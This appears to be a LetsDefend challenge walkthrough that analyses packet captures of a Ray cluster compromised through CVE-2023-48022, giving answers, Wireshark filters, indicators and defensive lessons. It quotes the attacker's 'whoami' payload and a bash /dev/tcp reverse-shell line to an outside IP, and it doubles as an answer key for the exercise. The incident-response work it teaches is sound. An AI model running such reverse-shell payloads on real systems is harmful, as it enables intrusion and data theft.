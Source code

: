 
# 🧠 Let’sDefend Walkthrough: Compromised AI Cluster Challenge

In this Let’sDefend challenge, you're investigating a suspected compromise of a cloud-hosted **AI infrastructure**. The organization uses **Ray**, an open-source distributed computing framework. Your evidence is a **PCAP file**, and your job is to figure out what happened, how, and who did it.

---

## 🔧 Tools Used

- **Wireshark** – packet analysis
- **HTTP protocol knowledge** – to analyze API interactions
- **Packet filters** – to isolate attacker traffic and extract IOCs

---

## 🔍 Step-by-Step Analysis

### 1. **What software framework was active on the server at the time of the incident?**
Observed repeated references to the **Ray** framework in HTTP requests.

✅ **Answer:** `Ray`

---

### 2. **What version of the software framework was installed?**
Filtered HTTP traffic for `"version"` in Wireshark and found the Ray version in a response body.

✅ **Answer:** `2.8.0`

---

### 3. **What is the public IP and port of the Ray dashboard?**
Located in the `Host:` header of HTTP requests.

✅ **Answer:** `3.72.0.226:8265`

---

### 4. **Which IP address was persistently accessing the Ray dashboard API?**
Filtered HTTP traffic and found IP `104.28.245.2` repeatedly accessing `/api/jobs`, `/api/packages`, etc.

✅ **Answer:** `104.28.245.2`

---

### 5. **When did the attacker first interact with the victim system?**
Found via ICMP echo requests in Wireshark.

✅ **Answer:** `2024-04-12 15:51:41 UTC`

---

### 6. **What is the first job submission ID by the attacker?**
Filtered:
```wireshark
http.request.method == "POST" && http contains "/api/jobs"
```
and extracted the first submission ID.

✅ **Answer:** `raysubmit_kkeJ8vLuM942ycqH`

---

### 7. **What vulnerability was used to compromise the system?**
Attacker used unauthenticated job submission via Ray’s API — matching:

✅ **Answer:** `CVE-2023-48022`

---

### 8. **What was the first command executed by the attacker?**
Found in job payload:
```python
import os; os.system('whoami')
```

✅ **Answer:** `whoami`

---

### 9. **What was the destination of the reverse shell?**
Payload showed:
```bash
bash -i >& /dev/tcp/52.150.25.174/1337 0>&1
```

✅ **Answer:** `52.150.25.174:1337`

---

### 10. **From which directory was the reverse shell launched?**
Found in job context:
```
/tmp/ray/session_2024-04-12_11-13-55_403523_10331/runtime_resources/working_dir_files/_ray_pkg_bf19252c1fb036e5
```

✅ **Answer:**
`/tmp/ray/session_2024-04-12_11-13-55_403523_10331/runtime_resources/working_dir_files/_ray_pkg_bf19252c1fb036e5`

---

### 11. **What job ID was used to exfiltrate the secrets file?**
Found another POST with:
```json
"submission_id": "raysubmit_7WZE36LAkVxbNc1x"
```

✅ **Answer:** `raysubmit_7WZE36LAkVxbNc1x`

---

### 12. **What new IP was used during exfiltration?**
Reverse shell and exfil traffic went to:

✅ **Answer:** `104.28.213.2`

---

### 13. **What did the file contain?**
Payload uploaded `secret.txt` with the content:

✅ **Answer:** `"Ops, you got me."`

---

### 14. **How many brute-force packets were sent?**
Used filter:
```wireshark
ip.src == 104.28.154.194 && tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == 172.31.30.230
```
Then checked:
```
Statistics > Endpoints > IPv4
```

✅ **Answer:** `39,598 SYN packets`

---

## 📚 Lessons Learned

- Don’t expose Ray dashboard publicly without authentication.
- Monitor job submissions for suspicious code execution.
- Block known reverse shell patterns and unusual outbound traffic.
- Patch known vulnerabilities like **CVE-2023-48022**.

---

## 🛡 Indicators of Compromise (IOCs)

| Type             | Value                         |
|------------------|-------------------------------|
| Attacker IPs     | 104.28.245.2, 104.28.213.2, 104.28.154.194 |
| Exploit CVE      | CVE-2023-48022                |
| Reverse Shell IP | 52.150.25.174:1337            |
| Commands Used    | `whoami`, bash reverse shell  |
| File Stolen      | `secret.txt` with `"Ops, you got me."` |

---

If this walkthrough helped you, consider sharing or starring the repo! 🚀  
Got questions or corrections? PRs are welcome.
